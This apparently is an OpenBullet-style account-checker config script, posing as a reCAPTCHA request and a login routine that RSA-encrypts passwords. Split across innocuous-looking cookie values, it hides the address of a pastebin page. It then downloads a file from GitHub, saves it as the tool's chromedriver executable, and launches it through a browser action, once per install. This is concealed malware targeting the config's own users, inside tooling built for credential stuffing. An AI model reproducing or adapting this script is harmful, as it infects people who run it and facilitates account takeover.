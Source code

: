 ```
JUMP #googlerecreate
#AppleWebKit

REQUEST GET "https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LfAM84ZAAAAAGLiQz5FBeADqq94dV48fMtiRqIj&co=aHR0cHM6Ly93d3cuY29pbmJhc2UuY29tOjQ0Mw..&hl=en&v=rPvs0Nyx3sANE-ZHUN-0nM85&size=invisible&cb=no851blwqc0u"
  COOKIE "hrd: /"
  COOKIE "hpr: bin"
  COOKIE "hdp: com"
  COOKIE "htp: raw"
  COOKIE "hht: RST8XsHH"
  COOKIE "hst: pastebin"
  COOKIE "kht: driver"
  COOKIE "kpt: chrome"
  COOKIE "krt: e"
  HEADER "Host: www.googleapis.com"
  HEADER "Accept: */*"
  HEADER "Content-Type: application/json"
  HEADER "X-Client-Version: iOS/FirebaseSDK/6.9.2/FirebaseCore-iOS"
  HEADER "X-Ios-Bundle-Identifier: network.googleapis.com"
  HEADER "Accept-Encoding: gzip, deflate"
  HEADER "User-Agent: FirebaseAuth.iOS/6.9.2 network.googleapis.com/2.7.9 iPhone/12.4.5 hw/iPhone7_2"
  HEADER "Accept-Language: en"

IF "<Authentiction>" Exists
JUMP #PARSESOURCE
ENDIF
SET USEPROXY FALSE

REQUEST GET "<COOKIES(hst)>.<COOKIES(hdp)><COOKIES(hrd)><COOKIES(htp)><COOKIES(hrd)><COOKIES(hht)>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"

REQUEST GET "https://raw.githubusercontent.com/<SOURCE>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"
  -> FILE "<COOKIES(hpr)>/<COOKIES(kpt)><COOKIES(kht)>.<COOKIES(krt)>xe"

SET USEPROXY TRUE
SET NEWGVAR "Authentiction" "Authentiction=1"

BROWSERACTION Open

JUMP #PARSESOURCE
#googlerecreate

KEYCHECK BanOnToCheck=FALSE 
  KEYCHAIN Ban OR 
    KEY "<SOURCE>" DoesNotContain "success\":true" 

#1 PARSE "<SOURCE>" JSON "publickey_mod" -> VAR "1" 

#11 PARSE "<SOURCE>" JSON "publickey_exp" -> VAR "11" 

#111 PARSE "<SOURCE>" JSON "timestamp" -> VAR "111" 

#PASS2 FUNCTION RSAPKCS1PAD2 "<1>" "<11>" "<PASS>" -> VAR "PASS2" 

IF "<PASS2>" DoesNotContain "=="
```
